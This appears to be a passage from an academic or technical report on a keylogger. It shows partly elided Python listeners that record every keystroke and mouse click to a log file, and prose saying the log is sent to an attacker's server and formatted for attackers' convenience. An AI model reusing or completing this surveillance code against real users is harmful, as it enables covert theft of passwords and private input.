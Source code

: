 \begin{codesnippet}[H]
    \caption{Keyboard and mouse listeners}
    \label{code:keyboard_mouse_listeners}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    # Event raised whenever a key is pressed
    def on_key_press(self, key): 
        self.get_active_window()
        self.previous_action = 'Key'

        # Avoid repeated prints when key is pressed for a long time
        if key in self.pressed_keys: return
        self.pressed_keys.add(key)

        try: 
            [...] # Check capital letters

            with open(self.keylog_txt_name, 'a') as file: file.write(f"{key.char}")
        
        [...] # Handle special keys
    

    # Event raised whenever a mouse button is pressed or released
    def on_mouse_click(self, x, y, button, pressed):
        self.get_active_window()

        # Do nothing if the button is being released
        if not pressed: return

        with open(self.keylog_txt_name, 'a') as file: 
            file.write(f"Mouse {str(button).split('.')[-1].lower()} click {'pressed' if pressed else 'released'} at ({x}, {y})\n")
        self.previous_action = 'Mouse'
\end{lstlisting}

The keyboard listener is able to differentiate between capital letters and detect special keys. The mouse listener is able to detect the three button presses and the specific coordinates of the screen where the user has pressed. All these presses are saved in a keylog.txt file, which will be sent to the attacker's server once it is requested by the attackers. The best feature of the active window detection is that it is also able to differentiate the specific tab the user is on in the browser. For the special keys, whenever they are pressed, they are printed in capital letters, while when they are released, they are printed in lower letters. This way, it is easier for the attackers to interpret the log.

